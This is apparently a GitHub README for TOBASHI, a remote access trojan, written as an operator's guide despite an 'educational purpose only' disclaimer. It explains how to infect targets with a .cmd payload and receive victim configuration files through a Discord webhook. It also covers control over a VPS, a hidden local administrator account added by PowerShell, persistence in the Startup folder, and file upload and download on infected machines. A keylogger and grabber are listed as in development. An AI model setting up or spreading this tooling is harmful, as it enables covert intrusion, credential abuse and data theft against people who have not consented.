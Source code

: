 # TOBASHI 戸橋
TOBASHI is a RAT (Remove Access Tool) including payloads and control panel. [IN DEVELOPMENT]
![hackerman-ezgif com-webp-to-gif-converter](https://github.com/flamendO/TOBASHI-/assets/78015005/47cef9a5-cf8e-478f-bb65-81cdf8335d1a)

## Information

This tool is for educational purpose only, the usage of TOBASHI without mutual consent is illegal. Developers assume no liability and are not responsible for any misuse or damage cause by this program.

![tobashi](https://github.com/flamendO/TOBASHI-/assets/78015005/4c0eae4a-914e-42fa-8b1f-9db03f835160)


## Features

- Remote multiple Connections
- Upload / Download files
- Local / VPS extension
- Persistence


[In development]

- Obfuscator
- Keylogger
- Grabber

## Configuration file

*Every target has a configuration file in .txt that will be send on your personnal discord server.* This configuration file is changing depending if you are remoting localy or outside your local network. The local file

### Example of a local configuration file :

*Here is the john local configuration file :*

```shell
Guest         # Name of the new user on the target machine (Guest by default)
192.168.0.5   # Local IP adress of the target
oUghflmDbp    # Random password generated for the connection
local         # Type of connection
```

### Example of a remote configuration file :

*Here is the doe remote configuration file :*
```shell
ZUrEwuWsjM           # Name of the new user on the target machine (Guest by default)
192.168.0.5     # Local IP adress of the target machine
oUpECuWPwL      # Random password generated for the connection
C:\Users\doe\AppData\Local\Temp   # Temp path
C:\Users\doe\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\[startup].cmd    # Startup path
X.X.X.X        # VPS IP adress
64215           # Remote Port 
remote         # Type of connection
```

# Installation

In order to install *TOBASHI*, please follow the steps : 

• **Git clone**

```shell
git clone https://github.com/flamendO/TOBASHI-.git
cd TOBASHI-/
python requirements.py
```

• **Start TOBASHI**

```shell
./tobashi.sh
```

• **On your VPS**

```shell
sudo apt install sshpass git apache2 openssh-server
```

# Discord configuration

In order to receive configuration files, you need to create a **discord** server. After that, create a webhook called **tobashiconsole** (the name of the salon can be different).

- To create a new discord webhook, go to your discord server settings, into *Integrations* and *Webhooks*, Then *New Webhook*.
- When you have your discord *webhook*, copy the link of your webhook and paste it in the **discord file** :

```shell
TOBASHI-/discord_config/discord
```
• When it's done, start the program, and select **discord** option, then click **Enter** to validate your discord webhook link.

# Infect in a LOCAL network

After the discord configuration set, infect your **target** with */src/initial_local.cmd*. When it's done, you should receive on your discord server a *user local configuration*, download the file and put it in the folder */users/local/*. You can now go to the program menu, select first the option **user**, choose **local** and the name of the user. **NOTE :** to choose, donc take the *.txt* at the end. For exemple, if you have a user configuration file called *john.txt*, you'll type in **user** option : *john*.

When it's done, you can go to the **console** option !


# Infect in a NON-LOCAL network

## VPS Configuration

In order to remote outside your *network*, you have to work with a **VPS**. To configure **TOBASHI** with your **VPS**, go to the start menu, and select the option **vps**.

- Follow step inside the program : write your *VPS IP*, *VPS username*, and *VPS password*.
- The program will automaticaly download features on your *VPS* server, and set the payload updated.

When it's done, you are ready to infect your target.

## Infect machine

Now, you are ready to infect, these are the same steps as for a local network. When the target opens the file, you'll receive a *user remote configuration*, that you put in the folder *users/vps/*. Then you can go to the program menu, select first the option **user**, choose **vps** and the name of the user. **NOTE :** to choose, donc take the *.txt* at the end. For exemple, if you have a user configuration file called *john.txt*, you'll type in **user** option : *john*.

When it's done, you can go to the **console** option !


# Download / Upload Option

In order to **download** or **upload** files from/to the target machine, click to the option **download** or **upload**. Follow steps. Be aware of the path of directories, use **/** and **NOT \** (question of encoding).

- **Download files** will automatically go to the folder *download_files/**target_name**/* .

# Reset settings

You might want to change your **vps or discord** settings. To do so, select the option **reset**. Then choose if you want to reset your *vps, discord* or both settings. 

# Errors that might appear

The main error that you can actually have is due your pc language. Actually in a step in the files **stage2.cmd , stage2_v.cmd**, there is this line :

```shell
Add-LocalGroupMember -Group "Administrateurs" -Member $JhfuihdfOm
```

If you are english, change **"Administrateurs"** by **"Administrators"**.


Careful : 

vps_settings folder and vps_conf have to be created before (void by default)

